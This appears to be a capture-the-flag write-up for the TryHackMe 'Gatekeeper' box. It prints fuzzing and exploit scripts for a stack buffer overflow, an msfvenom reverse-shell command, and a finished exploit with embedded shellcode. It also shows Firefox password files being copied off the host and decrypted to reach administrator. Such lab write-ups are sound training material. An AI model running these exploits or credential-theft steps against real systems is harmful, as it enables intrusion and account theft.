










This box is rated medium difficulty on THM. It involves abusing buffer overflow on a vulnerable binary found on an SMB share and extracting credentials from a Firefox profile stored in a user's account appdata directory.

_Can you get past the gate and through the fire?_

## Scanning & Enumeration
As always, I begin with an Nmap scan against the given IP to find any and all running services. This machine blocks ICMP so I'll need to add the `-Pn` flag.

```
$ sudo nmap -p135,139,445,3389,31337,49152-49162 -Pn -sCV 10.66.179.248 -oN fullscan-tcp
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-22 00:51 CST
Nmap scan report for 10.66.179.248
Host is up (0.067s latency).

PORT      STATE  SERVICE      VERSION
135/tcp   open   msrpc?
139/tcp   open   netbios-ssn?
445/tcp   open   microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds
3389/tcp  open   tcpwrapped
|_ssl-date: 2026-01-22T06:52:29+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=gatekeeper
| Not valid before: 2026-01-21T06:46:13
|_Not valid after:  2026-07-23T06:46:13
31337/tcp open   Elite?
49152/tcp open   unknown
49153/tcp open   unknown
49154/tcp open   unknown
49155/tcp closed unknown
49156/tcp closed unknown
49157/tcp closed unknown
49158/tcp closed unknown
49159/tcp closed unknown
49160/tcp open   unknown
49161/tcp open   unknown
49162/tcp open   unknown

Host script results:
| smb2-time: 
|   date: 2026-01-22T06:51:48
|_  start_date: 2026-01-22T06:45:42
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-01-22T01:51:56-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h15m02s, deviation: 2h30m06s, median: -1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.86 seconds
```

Looks like we're dealing with a Windows machine and there are 11 ports open:
- MSrpc on port 135
- SMB on ports 135 and 445
- RDP on port 3389
- Elite? on port 31337
- Open ports from 49152–49162 pertain to msrpc 

There are no web components here so I'll start enumerating SMB shares as Guest logon is enabled.



The machine is most likely running a very old Windows 7 Server build, and we have read access to a Users share. Let's connect with SMBclient and pull files from it.



There is a file called gatekeeper.exe in a Share folder as well as some sensitive files under /default. I transfer the executable to my local machine to dig into it and find that it seems to be the mystery service running on port 31337.




A line in the Strings output caught my eye: 

```
\\VBOXSVR\dostackbufferoverflowgood\dostackbufferoverflowgood\Release\dostackbufferoverflowgood.pdb
```

A bit of research shows that this is an intentionally vulnerable binary made for practice/research implementations, which kind of felt like cheating now that I know exactly what's happening.

## Buffer Overflow
So, it's clear we're gonna have to exploit a buffer overflow vulnerability on this .exe in order to inject shellcode and get a reverse shell. In our case, I use a NOP sled technique to inject shellcode into the binary, having it call our reverse shell.

I will be referring to [this GitHub repo/article](https://github.com/marcourbano/Stack-Buffer-Overflow) throughout the process as it's very similar to what is happening here and goes in-depth.

I start by sending an increasingly large amount of bytes to port 33137 using a simple script and find that it crashes at around 150 bytes.

```
#!/usr/bin/env python3
import socket, time, sys

ip = "TARGET_IP"

port = 31337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```



Next, I test for the amount of bytes needed in order for us to reach and overwrite the extended instruction pointer (EIP). I use Metasploit's `pattern_create.rb` module to find the offset here.

I start with 500 but that seemed to fail, so I upped it to 600. Now let's alter our script to include the payload and find exactly how many bytes are required.

```
import socket
import sys

OFFSET = 0
RETN = ""
NOP_SLED = ""
PAYLOAD = ""
T_IP = "10.10.158.172"
T_PORT = 31337

overflow = "A" * OFFSET
exploit = overflow + RETN + NOP_SLED + PAYLOAD

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((T_IP, T_PORT))

    s.send(bytes(exploit + "\r\n", "latin-1"))
    print("Success")

except (socket.error, socket.timeout):
    print("Cannot connect")
    sys.exit(0)
```

After sending the pattern_offset payload to the .exe and checking the registers again, I find that the EIP is overwritten with 39654138. We can use Metasploit's pattern_offset.rb to calculate our requirements.



Great, now we can update our script's offset and return bytes to confirm this actually works.



Rerunning it and checking registers returns the EIP with a value of 43434343 which decodes to CCCC (our RETN string) confirming that we have control over it.

Next up is finding padding to use, which means usually means testing for bad characters. I was being lazy when throwing this together and just used Null bytes (`\x00`) and Line feeds (`\x0a`) as that typically works for me.

_Note: I actually got pretty lucky here, so don't do what I did. You really should generate an array of bytes that would exclude null bytes (as we know that is always a bad character) and compare the memory of before and after crashing it._

Now, we need to find a JMP ESP address that does not include the bad characters we'll supply. I'm using Immunity debugger as the article does as well, however this is relatively easy to do.



Final step in preparation for the payload is our Shellcode to reach back to us. I use msfvenom for this step but [this site](https://shell-storm.org/shellcode/index.html) contains plenty of pre-made ones.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<your-ip> LPORT=<your-port> EXITFUNC=thread -b "\x00\x0a" -f c
```



Let's edit our script one last time and hope this works as intended:
- OFFSET = 146
- RETN = "\xc3\x14\x04\x08" (This is the JMP ESP address converted to little endian format to match the binary)
- NOP_SLED = "\x90" * 16 (Non printable characters that tell the CPU to ignore byte and go to next instruction)
- PAYLOAD = Replace this with the unsigned char buf[] from msfvenom or your other shellcode of choice

My final script:

```
import socket
import sys

OFFSET = 146
RETN = "\xc3\x14\x04\x08"
NOP_SLED = "\x90" * 16
PAYLOAD = ("\xb8\x72\xa8\xe0\x2d\xdb\xcf\xd9\x74\x24\xf4\x5b\x31\xc9"
"\xb1\x52\x31\x43\x12\x83\xeb\xfc\x03\x31\xa6\x02\xd8\x49"
"\x5e\x40\x23\xb1\x9f\x25\xad\x54\xae\x65\xc9\x1d\x81\x55"
"\x99\x73\x2e\x1d\xcf\x67\xa5\x53\xd8\x88\x0e\xd9\x3e\xa7"
"\x8f\x72\x02\xa6\x13\x89\x57\x08\x2d\x42\xaa\x49\x6a\xbf"
"\x47\x1b\x23\xcb\xfa\x8b\x40\x81\xc6\x20\x1a\x07\x4f\xd5"
"\xeb\x26\x7e\x48\x67\x71\xa0\x6b\xa4\x09\xe9\x73\xa9\x34"
"\xa3\x08\x19\xc2\x32\xd8\x53\x2b\x98\x25\x5c\xde\xe0\x62"
"\x5b\x01\x97\x9a\x9f\xbc\xa0\x59\xdd\x1a\x24\x79\x45\xe8"
"\x9e\xa5\x77\x3d\x78\x2e\x7b\x8a\x0e\x68\x98\x0d\xc2\x03"
"\xa4\x86\xe5\xc3\x2c\xdc\xc1\xc7\x75\x86\x68\x5e\xd0\x69"
"\x94\x80\xbb\xd6\x30\xcb\x56\x02\x49\x96\x3e\xe7\x60\x28"
"\xbf\x6f\xf2\x5b\x8d\x30\xa8\xf3\xbd\xb9\x76\x04\xc1\x93"
"\xcf\x9a\x3c\x1c\x30\xb3\xfa\x48\x60\xab\x2b\xf1\xeb\x2b"
"\xd3\x24\xbb\x7b\x7b\x97\x7c\x2b\x3b\x47\x15\x21\xb4\xb8"
"\x05\x4a\x1e\xd1\xac\xb1\xc9\x1e\x98\x29\x40\xf7\xdb\x49"
"\x70\x2e\x55\xaf\x1c\x20\x33\x78\x89\xd9\x1e\xf2\x28\x25"
"\xb5\x7f\x6a\xad\x3a\x80\x25\x46\x36\x92\xd2\xa6\x0d\xc8"
"\x75\xb8\xbb\x64\x19\x2b\x20\x74\x54\x50\xff\x23\x31\xa6"
"\xf6\xa1\xaf\x91\xa0\xd7\x2d\x47\x8a\x53\xea\xb4\x15\x5a"
"\x7f\x80\x31\x4c\xb9\x09\x7e\x38\x15\x5c\x28\x96\xd3\x36"
"\x9a\x40\x8a\xe5\x74\x04\x4b\xc6\x46\x52\x54\x03\x31\xba"
"\xe5\xfa\x04\xc5\xca\x6a\x81\xbe\x36\x0b\x6e\x15\xf3\x2b"
"\x8d\xbf\x0e\xc4\x08\x2a\xb3\x89\xaa\x81\xf0\xb7\x28\x23"
"\x89\x43\x30\x46\x8c\x08\xf6\xbb\xfc\x01\x93\xbb\x53\x21"
"\xb6")
T_IP = "10.66.179.248"
T_PORT = 31337

overflow = "A" * OFFSET
exploit = overflow + RETN + NOP_SLED + PAYLOAD

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((T_IP, T_PORT))

    s.send(bytes(exploit + "\r\n", "latin-1"))
    print("Success")

except (socket.error, socket.timeout):
    print("Cannot connect")
    sys.exit(0)
```

## Initial Foothold
After setting up a listener and running, it works first try! We get a shell as gatekeeper\natbat and can start looking at routes to admin. 

I begin a quick manual enumeration for privesc involving account privileges, groups, backups stored, and any out of place files. This doesn't return anything, so I upload WinPEAS via Guest authentication on the SMB share.

This shows a few potential sensitive files stored regarding Firefox which is non-standard on Windows machines. I copy these back over to my local machine using the SMB share as a gateway and try to extract credentials from any of them.

```
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy key4.db C:\Users\Share
copy key4.db C:\Users\Share
        1 file(s) copied.

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy logins.json C:\Users\Share
copy logins.json C:\Users\Share
        1 file(s) copied.

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy cookies.sqlite C:\Users\Share
copy cookies.sqlite C:\Users\Share
        1 file(s) copied.

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy cert9.db C:\Users\Share
copy cert9.db C:\Users\Share
        1 file(s) copied.
```

## Privilege Escalation
I spent some time trying to manually extract base64 encoded creds with layered encryption until finding a tool that does it for us. I use [firefox_decrpyt](https://github.com/unode/firefox_decrypt/blob/main/firefox_decrypt.py) but I'm sure there are others out there.

In order for this to work we need a valid 'profile' (directory) which must contain at least these four necessary files inside. 



Running the script grabs a login for a user named mayor. Both WinRM and RDP don't work to grab a shell, but psexec seems to work just fine.



Upon logging in, we're greeted with full Administrator privileges over the system and can grab the final flag under `C:\Users\Mayor\Desktop` to complete the box.

This challenge was a fun one, buffer overflows are always a technical but very rewarding way of exploiting vulnerable binaries. I hope this was helpful to anyone following along or stuck and happy hacking!
